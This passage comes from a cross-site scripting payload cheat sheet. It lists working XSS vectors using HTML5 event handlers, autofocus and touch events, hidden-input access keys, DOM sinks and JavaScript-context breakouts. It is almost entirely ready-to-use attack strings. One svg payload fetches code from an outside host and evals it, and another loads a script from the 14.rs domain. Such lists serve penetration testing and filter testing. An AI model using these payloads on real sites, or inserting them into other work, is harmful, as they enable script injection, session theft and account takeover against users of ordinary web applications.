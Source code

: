 ```javascript
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS using HTML5 tags

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in hidden input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

### DOM based XSS

Based on a DOM XSS sink.

```javascript
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context

```javascript
-confirm(document.domain); //
alert(1); //
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```
